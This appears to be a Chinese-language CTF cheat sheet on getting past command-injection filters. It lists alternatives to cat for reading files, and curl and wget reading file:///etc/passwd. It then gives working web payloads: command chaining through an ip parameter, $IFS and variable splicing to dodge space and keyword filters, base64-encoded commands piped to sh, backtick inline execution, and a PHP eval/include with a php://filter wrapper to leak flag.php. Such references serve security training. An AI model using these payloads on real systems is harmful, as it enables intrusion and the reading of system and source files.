* `.`source命令

    刷新当前`shell`环境
    在当前环境使用`source`执行`shell脚本`


* 换命令

    `cat->tac(逆向输出)->more(分页输出)->less(分页输出)->tail(文件最尾部信息)`

    * `tac`
        >逆向输出文件内容

    * `tail`
        >显示文件尾部内容

        -c<数目>显示的字节数
        -n<行数>显示的行数

    * `head`
        >显示文件开头的内容

        -c<数目>显示的字节数
        -n<行数>显示的行数

    * `od`
        >将文件内容以八进制形式输出

    * `nl`
        >将文件添加行号标注后写到标准输出

    * `strings`

        提取文件中可打印字符

    * `curl`

        `curl file:///etc/passwd`

    * `wget`

        `wget file:///etc/passwd`

### 清奇思路

* 命令执行变量拼接

    `/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php`

* 过滤bash用sh执行

    `echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh`
    也可以直接用base64读文件内容

* 内联执行

    `?ip=127.0.0.1;cat$IFS$9`ls``会先执行ls，然后再执行外面的语句

* 造参传参

    使用前提是c是`eval`里面的参数

    `c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php`
